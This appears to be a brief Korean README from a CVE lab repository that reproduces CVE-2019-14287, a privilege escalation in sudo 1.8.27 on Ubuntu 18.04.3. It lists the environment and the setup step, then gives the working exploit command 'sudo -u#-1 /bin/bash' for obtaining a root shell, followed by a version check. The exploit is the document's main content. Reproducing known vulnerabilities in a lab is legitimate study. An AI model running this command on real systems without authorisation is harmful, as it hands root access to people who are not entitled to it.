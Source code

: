 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type     | OS             | Vulnerable App |
| :---     | :---           | :---           |
| Victim   | Ubuntu 18.04.3 | [sudo 1.8.27](https://github.com/2jinu/CVE/raw/main/LPE/%5BLinux%5D%20CVE-2019-14287/file/sudo-1.8.27.tar.gz) |

# **Setting**

sudo파일 압축 해제

```sh
root@srv:~# tar -xf sudo-1.8.27.tar.gz
```



# **Exploit**

root 권한 획득

```sh
user@srv:~$ sudo -u#-1 /bin/bash
```

# **etc**

sudo 버전 확인

```sh
user@srv:~# sudo -V
```